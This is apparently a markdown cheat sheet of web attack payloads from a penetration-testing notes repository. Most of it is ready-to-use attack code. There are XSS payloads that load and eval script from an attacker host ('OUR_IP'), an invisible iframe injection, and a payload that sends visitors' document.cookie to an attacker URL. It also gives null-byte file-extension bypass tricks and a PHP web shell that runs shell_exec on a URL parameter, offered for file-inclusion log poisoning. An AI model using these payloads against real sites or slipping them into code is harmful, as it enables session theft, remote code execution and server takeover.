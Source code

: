 # XSS

### reference: special characters for HTML and javascript
```
< > # used to denote HTML elements 
' " # strings
{ } # javascript function declarations
;   # end of statement
```
---

### php: file extension bypass
```
%00 # null byte in the URL will bypass the file extension in older PHP servers 
?   # ending url with ? will mark anything as part of query string
```
---

### script: XSS with script tag 
```html
<script src=http://OUR_IP></script>

'><script src=http://OUR_IP></script>

"><script src=http://OUR_IP></script>

javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')

<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>

<script>$.getScript("http://OUR_IP")</script>
```
---

### script: XSS content injection with iframe
```html
<iframe src=<your_url> height="0" weight="0"></iframe>
```
---

### script: XSS cookie exfiltration with javascript
```html
<script>new Image().src="<your_url>/page.html?output="+document.cookie;</script>
```
---

# LFI

### php: LFI payload in PHP (can be used as log contamination)
```php
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```

# RFI

### php: RFI payload in PHP (can be used as log contamination)
```php
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```
